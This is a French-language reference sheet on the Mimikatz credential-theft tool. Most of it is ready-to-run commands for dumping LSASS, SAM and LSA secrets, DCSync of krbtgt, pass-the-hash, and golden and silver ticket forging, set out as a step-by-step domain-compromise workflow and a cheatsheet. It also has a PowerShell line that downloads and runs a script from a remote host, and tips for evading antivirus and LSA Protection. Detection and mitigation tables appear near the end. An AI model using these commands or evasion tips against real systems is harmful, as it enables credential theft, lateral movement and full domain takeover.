

# 👑 Mimikatz — Extraction d'identifiants Windows et AD

> [!info] **En 1 phrase**
> Mimikatz est l'outil de référence de la post-exploitation Windows : il extrait les identifiants (mots de passe, hashes NTLM, tickets Kerberos, clés DPAPI) depuis la mémoire et les bases locales de Windows.

---

## 🧾 Overview

| Champ | Détail |
|---|---|
| **Nom** | Mimikatz |
| **Type** | Post-exploitation Windows / extraction d'identifiants |
| **Licence** | MIT (dépôt public) |
| **Langage** | C |
| **Développeur** | gentilkiwi (Benjamin Delpy) ; DCSync/DCShadow co-écrits avec Vincent LE TOUX |
| **Dépositaires** | `github.com/gentilkiwi/mimikatz` |
| **Installation** | Binaire `mimikatz.exe` téléchargé/copié sur la cible, ou module PowerShell (`Invoke-Mimikatz`) |
| **Pré-requis** | Droits élevés (SYSTEM idéalement), `SeDebugPrivilege` |
| **Plateformes** | Windows (cible), souvent relayé depuis Linux via Impacket |
| **Objectif** | Extraire mots de passe en clair, hashes NTLM, tickets Kerberos, clés DPAPI, et forger des tickets |

---

## 🎯 Concept

Mimikatz lit la mémoire du processus **LSASS** (`sekurlsa`) et les bases **SAM / LSA / NTDS** (`lsadump`) pour voler les secrets de la machine et du domaine. Il permet aussi d'injecter des tickets Kerberos (**Pass-the-Ticket**), de faire du **DCSync** et de déchiffrer les données **DPAPI**. Nécessite des droits élevés (`SYSTEM` idéalement) et le privilège `SeDebugPrivilege`.

C'est l'outil central de la **post-exploitation Active Directory** : après obtention d'une session, il transforme un accès local en jeu complet d'identifiants (hashes NTLM, cleartext, tickets) permettant le lateral movement et l'escalade de privilèges. La plupart des frameworks (Cobalt Strike, Empire) embarquent une copie ou des implémentations équivalentes de ses fonctions.

Mimikatz s'exécute en console Windows (`mimikatz.exe`) avec des commandes passées en arguments (« une ligne de commandes entre guillemets ») ou en mode interactif. La majorité des opérations nécessitent les privilèges SYSTEM ou un compte à droits élevés, et les protections modernes (Credential Guard, LSA Protection) imposent des contournements ou le recours à des dumps LSASS analysés hors-ligne.



---

## 🧠 Concepts fondamentaux

| Concept | Rôle dans Mimikatz |
|---|---|
| **LSASS** | Processus qui stocke en mémoire les identifiants des sessions (cible de `sekurlsa`) |
| **SeDebugPrivilege** | Privilège nécessaire pour ouvrir les processus (activé par `privilege::debug`) |
| **SAM** | Base des comptes locaux (dump avec `lsadump::sam`) |
| **LSA Secrets** | Secrets système et de service (dump avec `lsadump::lsa /patch`) |
| **NTDS.dit** | Base du domaine : DCSync pour répliquer les hashes sans accès fichier |
| **NTLM hash** | Empreinte du mot de passe (rejouée par Pass-the-Hash) |
| **TGT / ST / .kirbi** | Tickets Kerberos exportés (`.kirbi`) et réinjectés (`kerberos::ptt`) |
| **DPAPI** | API de chiffrement des données utilisateur (Credential Manager, navigateurs, WiFi) |
| **DCSync** | Réplication à distance de l'annuaire via les droits `Replicating Directory Changes` |
| **Golden/Silver Ticket** | Tickets forgés avec le hash krbtgt / d'un compte de service |
| **DCShadow** | Enregistrement temporaire d'un Rogue DC pour injecter des objets AD |

---

## 🛠️ Installation

### Téléchargement (post-exploitation)

```bash
# sur Kali : partager le dossier contenant mimikatz
impacket-smbserver share .

# puis sur la cible Windows :
copy \\192.168.1.50\share\mimikatz.exe C:\Windows\Temp\
cd C:\Windows\Temp && mimikatz.exe
```

### Version PowerShell in-memory

```powershell
# Souvent téléchargée à la volée, sans écrire sur disque
IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.50/mimi.ps1')
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'
```

> [!note] À vérifier
> L'utilisation via `Invoke-Mimikatz` suppose d'avoir la bonne version du module (ex. celui packagé dans Empire/Cobalt Strike) : les fonctions et sorties peuvent différer selon la version de Mimikatz embarquée.

---

## ⚙️ Configuration

Mimikatz fonctionne **en mode interactif** ou **en une ligne** (commandes entre guillemets, séparées par des espaces). Il n'y a pas de fichier de configuration : l'ordre des commandes et les privilèges font tout.

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| `privilege::debug` | Active `SeDebugPrivilege` | toujours requis en premier | Donne l'accès à LSASS | `privilege::debug` |
| `log` | Journalise les sorties dans un fichier | `log mimikatz.log` | Trace pour rapport | `log` |
| `sekurlsa::minidump <dmp>` | Analyse un dump LSASS hors-ligne | chemin du `.dmp` | Permet l'analyse sans accès au process | `sekurlsa::minidump lsass.dmp` |
| `lsadump::sam` | Dump SAM local | on/off | Hashes des comptes locaux | `lsadump::sam` |
| `lsadump::dcsync /domain /user` | DCSync d'un compte | domaine + user | Hash du compte ciblé (ex. krbtgt) | `lsadump::dcsync /domain:corp.local /user:krbtgt` |
| `kerberos::ptt <f>` | Injecte un ticket `.kirbi` | chemin du fichier | Pass-the-Ticket | `kerberos::ptt ticket.kirbi` |
| `sekurlsa::pth /user /domain /ntlm` | Pass-the-Hash | user + domaine + hash | Lance un processus avec le hash | `sekurlsa::pth /user:admin /domain:corp.local /ntlm:<hash>` |
| `dpapi::cred /in /masterkey` | Déchiffre un blob DPAPI | chemin + GUID:KEY | Récupère le secret en clair | `dpapi::cred /in:C:\... /masterkey:GUID:KEY` |
| `crypto::certificates /export` | Exporte les certificats avec clé privée | /export | Vol de certs (ADCS) | `crypto::certificates /export` |

---

## 🏗️ Architecture interne

- **Langage** : C pur, compilé pour Windows (x86/x64, ARM) — minimal et rapide.
- **Modules** : chaque domaine fonctionnel est un module (`sekurlsa`, `lsadump`, `kerberos`, `dpapi`, `crypto`, `vault`, `privilege`, …) accessible via la syntaxe `module::fonction`.
- **`sekurlsa`** : lit les structures internes de LSASS en mémoire (listes de sessions, creds en clair, hashes, tickets) en fonction de la version de Windows.
- **`lsadump`** : accède à SAM/LSA (via API ou `/patch`), NTDS.dit, et implémente le **DCSync** (réplication DRSUAPI).
- **`kerberos`** : manipule les tickets (lister, exporter, injecter, forger des golden/silver tickets).
- **`dpapi`** : décrypte les masterkeys et blobs (via `CryptUnprotectData` et récupération des clés).
- **Drivers** : `mimidrv.sys` (pilote kernel) permet d'élever les privilèges au-delà de SYSTEM ; `kiwi` (loader) autorise le chargement en mémoire.
- **Exécution** : les commandes passées en une ligne évitent le mode interactif et sont compatibles avec un shell à distance (RCE, reverse shell).

---

## ⌨️ Commandes

### Commandes principales

```bash
# En une ligne : dump des logons courants
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

# Dump de la base SAM locale et des secrets LSA
mimikatz.exe "privilege::debug" "lsadump::sam" "exit"
mimikatz.exe "privilege::debug" "lsadump::lsa /patch" "exit"

# DCSync du compte krbtgt (droits de réplication requis)
mimikatz.exe "lsadump::dcsync /domain:corp.local /user:krbtgt" "exit"

# Pass-the-Ticket
mimikatz.exe "kerberos::ptt ticket.kirbi" "exit"

# Pass-the-Hash (lance un processus avec le hash NTLM)
mimikatz.exe "sekurlsa::pth /user:admin /domain:corp.local /ntlm:<HASH>" "exit"
```

| Module | Effet |
|---|---|
| `privilege::debug` | active `SeDebugPrivilege` (obligatoire avant le reste) |
| `sekurlsa::logonpasswords` | mdp en clair + hashes des sessions loguées (LSASS) |
| `sekurlsa::msv` | hash NTLM des sessions (version "silencieuse") |
| `sekurlsa::pth` | Pass-the-Hash : lance un processus avec un hash NTLM |
| `lsadump::sam` | dump de la base SAM (comptes locaux) |
| `lsadump::lsa /patch` | dump des secrets LSA (par patch, pas de reboot) |
| `lsadump::dcsync` | réplication NTDS à distance (droits `Replicating Directory Changes`) |
| `kerberos::list` | liste les tickets Kerberos en cache |
| `kerberos::ptt` | injecte un ticket `.kirbi` (Pass-the-Ticket) |
| `dpapi::cred` | déchiffre les blobs DPAPI (avec la masterkey) |
| `crypto::certificates` | exporte les certificats avec clés privées |
| `lsadump::trust` | secrets de confiance inter-domaines |

### Commandes avancées

```bash
# Dump hors-ligne d'un dump LSASS
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords" "exit"

# Golden Ticket direct (injecté en mémoire)
mimikatz.exe "kerberos::golden /user:fakadmin /domain:corp.local /sid:S-1-5-21-XXXX /krbtgt:<HASH> /ptt" "exit"

# Export des certificats (ADCS)
mimikatz.exe "crypto::certificates /export" "exit"

# Overpass-the-Hash (conversion hash → ticket)
mimikatz.exe "sekurlsa::pth /user:admin /domain:corp.local /ntlm:<HASH> /ptt" "exit"
```

## 🎚️ Options et flags

| Option | Description | Exemple | Niveau |
|---|---|---|---|
| `privilege::debug` | Active `SeDebugPrivilege` | `mimikatz "privilege::debug"` | Basic |
| `sekurlsa::logonpasswords` | Dump des creds des sessions | `mimikatz "sekurlsa::logonpasswords"` | Basic |
| `lsadump::sam` | Dump SAM local | `mimikatz "lsadump::sam"` | Basic |
| `kerberos::list` | Liste les tickets | `mimikatz "kerberos::list"` | Basic |
| `kerberos::ptt <f>` | Injecte un ticket `.kirbi` | `kerberos::ptt t.kirbi` | Intermediate |
| `sekurlsa::pth /user /domain /ntlm` | Pass-the-Hash | `sekurlsa::pth /user:a /domain:c /ntlm:H` | Intermediate |
| `lsadump::lsa /patch` | Secrets LSA sans reboot | `lsadump::lsa /patch` | Intermediate |
| `lsadump::dcsync /user` | DCSync d'un compte | `lsadump::dcsync /domain:corp.local /user:krbtgt` | Advanced |
| `sekurlsa::minidump <f>` | Analyse d'un dump LSASS | `sekurlsa::minidump lsass.dmp` | Advanced |
| `kerberos::golden /krbtgt` | Golden Ticket | `kerberos::golden /krbtgt:<hash> /ptt` | Advanced |
| `dpapi::cred /masterkey` | Déchiffrage DPAPI | `dpapi::cred /in:<blob> /masterkey:<GUID>:<KEY>` | Expert |
| `crypto::certificates /export` | Export des certificats | `crypto::certificates /export` | Expert |
| `lsadump::dcshadow` | DCShadow | `lsadump::dcshadow /object /attribute` | Expert |
| `log` | Journal des sorties | `log out.txt` | Basic |

> [!tip] Options les plus utiles au quotidien
> `privilege::debug` (toujours), `sekurlsa::logonpasswords`, `lsadump::dcsync`, `kerberos::ptt`.

---

## 🧪 Exemples pratiques

### Beginner

```bash
# Dump simple des sessions loguées
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

# Dump des comptes locaux
mimikatz.exe "privilege::debug" "lsadump::sam" "exit"
```

### Intermediate

```bash
# Secrets LSA (comptes de service) + dump SAM en une passe
mimikatz.exe "privilege::debug" "lsadump::lsa /patch" "lsadump::sam" "exit"

# Pass-the-Hash : lancer un cmd avec le hash trouvé
mimikatz.exe "sekurlsa::pth /user:admin /domain:corp.local /ntlm:64f12cdd..." "exit"
```

### Advanced

```bash
# DCSync du krbtgt pour un futur Golden Ticket
mimikatz.exe "lsadump::dcsync /domain:corp.local /user:krbtgt" "exit"

# Golden Ticket injecté en mémoire
mimikatz.exe "kerberos::golden /user:fakadmin /domain:corp.local /sid:S-1-5-21-XXXX /krbtgt:<hash> /ptt" "exit"
dir \\dc01\C$
```

### Expert

```bash
# Analyse hors-ligne d'un dump LSASS (procdump côté cible)
procdump64 -accepteula -ma lsass.exe lsass.dmp
# puis côté analyse :
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords" "exit"

# Déchiffrage DPAPI d'un blob Credential Manager
mimikatz.exe "privilege::debug" "dpapi::cred /in:C:\Users\user\AppData\Local\Microsoft\Credentials\<blob> /masterkey:<GUID>:<KEY>" "exit"
```

---

## 🧪 Workflow complet (scénario pas à pas)

Scénario : vous avez obtenu une session **SYSTEM** sur un poste du domaine.

1. **Droits** :
   ```bash
   mimikatz.exe "privilege::debug"
   ```
2. **Vol des creds** : `sekurlsa::logonpasswords` → hash NTLM d'un admin qui s'est logué.
3. **Dump local** : `lsadump::sam` → comptes locaux du poste.
4. **Escalade domaine** : `lsadump::dcsync /domain:corp.local /user:krbtgt` (si droits de réplication) → prépare un Golden Ticket.
5. **Lateral movement** : réutiliser le hash NTLM trouvé avec `sekurlsa::pth` ou psexec vers les autres machines.

Ces opérations s'enchaînent en une seule ligne (`mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "lsadump::sam" "exit"`), ce qui limite le temps d'exposition et facilite l'exécution via un shell récupéré (RCE, reverse shell).

---

## 🎬 Scénarios avancés

### Scénario 1 : Golden Ticket avec le krbtgt

```bash
# 1. Récupérer le hash du krbtgt (DCSync)
mimikatz.exe "lsadump::dcsync /domain:corp.local /user:krbtgt" "exit"
# 2. Créer un ticket doré (SID du domaine, RID 519 = Domain Admins)
mimikatz.exe "kerberos::golden /user:fakadmin /domain:corp.local /sid:S-1-5-21-XXXX /krbtgt:<HASH> /ptt" "exit"
# 3. Accéder aux ressources en tant que Domain Admin
dir \\dc01\C$
```

### Scénario 2 : Déchiffrement DPAPI (mots de passe de navigateurs / WiFi)

```bash
# 1. Extraire les masterkeys de la session
mimikatz.exe "privilege::debug" "sekurlsa::dpapi" "exit"
# 2. Déchiffrer un blob DPAPI (ex : Credential Manager) avec la GUID de masterkey
mimikatz.exe "dpapi::cred /in:C:\Users\user\AppData\Local\Microsoft\Credentials\<blob> /masterkey:<GUID>:<KEY>" "exit"
# 3. Alternative hors-ligne : importer les masterkeys dans un format exploitable
#    dpapi::masterkey /in:<fichier> /rpc
```

Cible classique : les **mots de passe Wi-Fi** (WLAN profiles), les **identifiants navigateurs** (Chromium) et le **Credential Manager** — tous chiffrés via DPAPI avec des masterkeys stockées dans l'utilisateur.

### Scénario 3 : Pass-the-Hash vers une autre machine

```bash
# 1. Récupérer un hash NTLM admin
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
# 2. Rejouer le hash pour lancer un processus sur une autre machine
mimikatz.exe "sekurlsa::pth /user:admin /domain:corp.local /ntlm:<hash>" "exit"
# 3. Depuis le nouveau process, accéder aux partages de la cible
dir \\app01\C$
# (ou depuis Linux : impacket-psexec -hashes :<hash>)
```

### Scénario 4 : Silver Ticket pour un service applicatif

```bash
# 1. Récupérer le hash du compte de service (ex. via sekurlsa ou DCSync ciblé)
mimikatz.exe "lsadump::dcsync /domain:corp.local /user:svc_sql" "exit"
# 2. Forger un ticket pour le SPN du service
mimikatz.exe "kerberos::golden /user:fakadmin /domain:corp.local /sid:S-1-5-21-XXXX /target:sql01.corp.local /service:MSSQLSvc /rc4:<hash> /ptt" "exit"
```

---

## 🛡️ Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Credential Access | Dump LSASS (logonpasswords), SAM, LSA secrets, DPAPI |
| Privilège Escalation | Obtention d'un contexte SYSTEM, passage à des comptes admin |
| Lateral Movement | Pass-the-Hash, Pass-the-Ticket, Overpass-the-Hash |
| Persistance | Golden/Silver Tickets, DCShadow (injection d'objets) |
| Initial Access (red team) | Souvent embarqué dans les frameworks (Cobalt Strike, Empire) |
| Blue team / forensics | Analyse des dumps LSASS (tests), évaluation des protections |

---

## 🎯 MITRE ATT&CK

| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Credential Access | OS Credential Dumping : LSASS Memory | T1003.001 | `sekurlsa::logonpasswords` lit LSASS | Événements 4656/4663 (accès LSASS), Sysmon 10 | Credential Guard, LSA Protection (RunAsPPL) |
| Credential Access | OS Credential Dumping : Security Account Manager | T1003.002 | `lsadump::sam` lit la base SAM | 4656/4663 sur SAM, signatures | Restreindre l'accès aux bases, EDR |
| Credential Access | OS Credential Dumping : LSA Secrets | T1003.004 | `lsadump::lsa /patch` | 4656/4663 sur LSA | LSA Protection |
| Credential Access | OS Credential Dumping : NTDS | T1003.003 | DCSync / NTDS.dit | 4662, réplications anormales | Atténuation DCSync (droits de réplication) |
| Credential Access | Steal or Forge Kerberos Tickets | T1558.001/.002/.003 | Golden/Silver/PtT | TGT/ST anormaux, 4768/4769 suspects | Rotation krbtgt, monitoring Kerberos, AES-only |
| Credential Access | Exploitation du relais / Session replay | T1557 / T1550 | PtH / PtT | Logons répétés avec mêmes hashes | Restrictions réseau, LAPS |
| Defense Evasion | System Binary Proxy / Kernel driver | T1218 / T1543.003 | Chargement `mimidrv.sys` | Blocage des drivers non signés | Signature des drivers, DSE |
| Persistence | DCShadow | T1558.004 (variante) | Rogue DC pour injection | Surveillance des objets AD, 4662 | Contrôle des inscriptions DC |

> [!note] Ne renseigner que si l'association est réellement pertinente.
> Mimikatz couvre surtout **Credential Access** (T1003, T1558) et **Defense Evasion** (drivers) ; les tickets relèvent de T1558.

## 🛡️ Defensive Security

| Élément | Analyse |
|---|---|
| **Signature principale** | Accès à LSASS par un process non-SYSTEM, présence de `mimikatz.exe` / chaînes `sekurlsa` |
| **Journal Windows** | 4656/4663 (accès objets), 4624, 4768/4769 (Kerberos), 4740 (lockout), Sysmon Event 10 (accès LSASS) |
| **Surveillance** | Alerter sur les tentatives d'ouverture de `lsass.exe` par des processus anormaux (procdump, comsvcs) |
| **Mesures de prévention** | Credential Guard, LSA Protection (RunAsPPL), restreindre les droits `Debug programs` |
| **Réduction de la surface** | Limiter les comptes admin logués, LAPS pour les admins locaux, AES-only Kerberos |
| **Outils de détection** | EDR (YARA sur `sekurlsa`/`kerberos::`), Sysmon (Event 10), honeypot de comptes |

> [!tip] Bien comprendre ce que Mimikatz exploite
> Mimikatz exploite le fait que **Windows stocke des secrets en clair dans LSASS**. Les protections (Credential Guard, LSA Protection) limitent l'extraction mais les dumps hors-ligne restent possibles : le durcissement doit viser l'accès à la mémoire et la détection.

---

## 🤖 Automatisation

| Tâche | Outil | Exemple de commande / code |
|---|---|---|
| Dump récurrent des sessions | Schtasks / script | `mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "log dump.txt" "exit"` |
| Dump de masse via frameworks | Cobalt Strike / Empire | `mimikatz sekurlsa::logonpasswords` (module intégré) |
| Analyse hors-ligne batch | Boucle sur des `.dmp` | `for f in *.dmp; do mimikatz.exe "sekurlsa::minidump $f" "sekurlsa::logonpasswords"; done` |
| Extraction ciblée krbtgt | DCSync en une ligne | `lsadump::dcsync /domain:corp.local /user:krbtgt` |
| Parsing des résultats | grep/awk | `grep -iE 'ntlm|wdigest|tspkg' dump.txt` |

---

## 📤 Output et parsing

- **Sortie console** : lignes `user : domaine : NTLM : <hash>` pour les sessions, tickets listés par `kerberos::list`.
- **Fichiers** : `log <f>` écrit la session dans un fichier ; les exports DPAPI/certificats produisent des fichiers (`*.pfx`, blobs décryptés).
- **Tickets** : `kerberos::list /export` écrit des `.kirbi` réutilisables avec `kerberos::ptt` ou convertibles en `.ccache` (Impacket `ticketConverter.py`).
- **Parsing** : les sorties sont du texte : `grep`/`awk` pour extraire les hashes, `sort -u` pour dédoublonner.

```bash
# Exemple de parsing des hashes récupérés
grep -iE 'ntlm:' dump.txt | awk '{print $NF}' | sort -u > hashes.txt
```

---

## 🔗 Intégrations

| Outil | Usage dans l'écosystème Mimikatz |
|---|---|
| [[Outil - Impacket]] | `secretsdump.py` (équivalent Linux du dump NTDS), `ticketConverter.py` (kirbi ↔ ccache), `psexec` (rejeu des hashes) |
| [[Outil - Evil-WinRM]] | Chargement de `Invoke-Mimikatz` en mémoire via `load` |
| [[Outil - BloodHound]] | Cartographier le domaine après récupération des creds ; exploiter les chemins |
| [[Outil - Rubeus]] | Alternative Kerberos (roasts, tickets) côté .NET |
| [[Outil - CrackMapExec]] | Valider les hashes extraits sur l'ensemble des machines |
| [[Outil - hashcat]] | Cracker les hashes NTLM (m 1000) extraits de LSASS/SAM/NTDS |

---

## 🔄 Alternatives

| Alternative | Différence | Pour qui |
|---|---|---|
| **secretsdump.py (Impacket)** | Dump NTDS/SAM depuis Linux, sans toucher à la mémoire | Accès Linux à la cible |
| **Rubeus** | Focus Kerberos (.NET) : roasts, tickets, sans dump LSASS | Environnements avec PowerShell/.NET |
| **procdump + analyse** | Dump LSASS sans exécuter de binaire connu | Évasion des signatures |
| **CrackMapExec --sam** | Dump SAM en masse (SMB) | Scripting multi-hôtes |
| **PowerShell (Get-APIGrantedDelegation etc.)** | Énumération sans extraction | Blue team / audit |

---

## ⚡ Performance

| Facteur | Impact | Optimisation |
|---|---|---|
| Taille de LSASS | Dump plus long sur les machines avec beaucoup de sessions | Cibler les machines à forte valeur (DC, serveurs) |
| DCSync | Réplication complète du domaine = long | `-user` ciblé (krbtgt, admin) |
| Volume de sortie | `logonpasswords` peut produire des Mo de logs | Utiliser `sekurlsa::msv` pour l'essentiel, filtrer |
| Signatures AV/EDR | Mimikatz est massivement détecté | Dumps hors-ligne, versions modifiées (usage lab uniquement) |

---

## 🛠️ Troubleshooting

| Problème | Cause | Solution | Vérification |
|---|---|---|---|
| `ERROR kuhl_m_sekurlsa_acquireLSA ; Handle 0` | Privilèges insuffisants / LSA Protection | Lancer en SYSTEM, vérifier RunAsPPL | `whoami` doit donner SYSTEM, `privilege::debug` OK |
| `sekurlsa` retourne rien | Credential Guard actif | Dump LSASS + analyse hors-ligne, ou contourner | Vérifier `sekurlsa::msv` |
| `lsadump::sam` échoue | SAM verrouillée (accès administrateur requis) | Passer par un shell SYSTEM | Relancer en SYSTEM |
| DCSync `Access denied` | Droits de réplication absents | Utiliser un compte admin domaine | Vérifier `dsrm`/droits sur le compte |
| Ticket non accepté | .kirbi expiré ou mauvais SPN | Re-forger le ticket, vérifier l'heure | `kerberos::list` côté cible |
| Binaire bloqué par Defender | Signature connue | Version modifiée / reflective DLL (cadre lab) | Détection par `Get-FileHash` |

---

## 🔐 Sécurité de l'outil

- **Usage strictement encadré** : Mimikatz est un outil offensif ; à n'utiliser que dans un cadre de test autorisé (lab, contrat de pentest).
- **Protection des données** : les hashes, tickets et secrets extraits sont sensibles → chiffrer les fichiers de log, ne jamais les committer.
- **Exposition du binaire** : `mimikatz.exe` est signé, connu et détecté : son transfert et son exécution doivent rester dans un environnement contrôlé.
- **Drivers** : le chargement de `mimidrv.sys` nécessite des privilèges élevés et peut être bloqué par la signature des drivers (DSE).
- **Nettoyage** : supprimer les dumps `.dmp` et les fichiers d'export après analyse.

---

## ⚠️ Limitations

- **Droits requis** : SYSTEM/`SeDebugPrivilege` pour la plupart des fonctions.
- **Protections modernes** : Credential Guard, LSA Protection, WDAG/Core Isolation limitent l'extraction.
- **Version Windows** : les structures LSASS varient selon les builds (compatibilité parfois fragile).
- **Bruit** : signatures AV/EDR massives, événements 4656/4663.
- **Local uniquement** : sans accès au domaine (DC), le dump local ne donne que les secrets de la machine.
- **Pas de Linux natif** : nécessite un agent Windows ou un dump hors-ligne à analyser depuis Windows.

---

## 📋 Cheatsheet

```text
# Privilèges (toujours d'abord)
mimikatz.exe "privilege::debug" "exit"

# Dump des sessions
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
mimikatz.exe "privilege::debug" "sekurlsa::msv" "exit"

# Bases locales
mimikatz.exe "privilege::debug" "lsadump::sam" "exit"
mimikatz.exe "privilege::debug" "lsadump::lsa /patch" "exit"

# Domaine
mimikatz.exe "lsadump::dcsync /domain:corp.local /user:krbtgt" "exit"
mimikatz.exe "lsadump::trust /patch" "exit"

# Tickets
mimikatz.exe "kerberos::list /export" "exit"
mimikatz.exe "kerberos::ptt ticket.kirbi" "exit"
mimikatz.exe "sekurlsa::pth /user:admin /domain:corp.local /ntlm:<hash> /ptt" "exit"

# Golden / Silver
mimikatz.exe "kerberos::golden /user:fakadmin /domain:corp.local /sid:S-1-5-21-XXXX /krbtgt:<hash> /ptt" "exit"

# Hors-ligne
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords" "exit"

# DPAPI / Certificats
mimikatz.exe "dpapi::cred /in:<blob> /masterkey:<GUID>:<KEY>" "exit"
mimikatz.exe "crypto::certificates /export" "exit"
```

---

## ⚡ Quick reference

| Situation | Action immédiate |
|---|---|
| Session Windows admin | `privilege::debug` puis `sekurlsa::logonpasswords` |
| Récupérer les comptes locaux | `lsadump::sam` |
| Hash du krbtgt (Golden Ticket) | `lsadump::dcsync /domain:corp.local /user:krbtgt` |
| Rejouer un hash NTLM | `sekurlsa::pth /user:admin /domain:corp.local /ntlm:<hash>` |
| Réinjecter un ticket | `kerberos::ptt ticket.kirbi` |
| Bloquer sur LSA Protection | `procdump64 -ma lsass.exe` puis `sekurlsa::minidump` |
| Déchiffrer un cred (DPAPI) | `dpapi::cred /in:<blob> /masterkey:<GUID>:<KEY>` |

---

## 🔍 Détection & Défense

| Signe | Défense |
|---|---|
| Ouverture de `lsass.exe` en lecture par un process non-SYSTEM | Événements 4656/4663 : surveiller les accès à LSASS |
| Binaires nommés `mimikatz*`, chaînes `sekurlsa`, `kerberos::` | Signatures EDR/YARA + blocage d'exécution |
| Dump mémoire de LSASS (procdump, comsvcs) | LSA Protection (`RunAsPPL`), Credential Guard |
| DCSync : réplications NTDS inhabituelles | Surveiller l'événement 4662, restreindre `Replicating Directory Changes` |
| Chargement du driver `mimidrv.sys` | Blocage des drivers non signés, signature des kernel drivers |
| Nouveaux tickets TGT (golden ticket) | Monitorer les TGT anormaux, rotation des mots de passe des krbtgt |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Contournement LSA Protection** : si `sekurlsa` échoue, dump la mémoire de LSASS (`procdump64 -accepteula -ma lsass.exe lsass.dmp`) puis analyse hors-ligne : `mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords"`.

> [!warning] ⚠️ **Piège** : les hashes d'un **compte local** ne valent que sur la machine. Pour le domaine, il faut le **NTDS** (DCSync ou `secretsdump.py`).

> [!warning] ⚠️ **Piège** : `kerberos::ptt` exige un ticket **.kirbi**. Depuis Linux, convertis un `.ccache` avec `ticketConverter.py` (Impacket).

> [!warning] ⚠️ **Piège** : le binaire `mimikatz.exe` est massivement détecté par Defender/EDR. Pense aux chargements mémoire (Reflective DLL), aux variantes modifiées, ou à l'équivalent `secretsdump.py` d'Impacket depuis un accès Linux.

---

## 📚 References

- GitHub officiel : https://github.com/gentilkiwi/mimikatz
- Wiki Mimikatz : https://github.com/gentilkiwi/mimikatz/wiki
- Blog gentilkiwi : https://blog.gentilkiwi.com/
- The Hacker Recipes — Mimikatz : https://www.thehacker.recipes/ad/movement/credentials/dumping/
- Microsoft — LSA Protection : https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/configuring-additional-lsa-protection

➡️ **Liens :** [[Outil - Mimikatz]] | [[Outil - Impacket]] | [[Outil - Evil-WinRM]] | [[Outil - Rubeus]] | [[Outil - BloodHound]] | [[Outil - CrackMapExec]] | [[Outil - hashcat]]

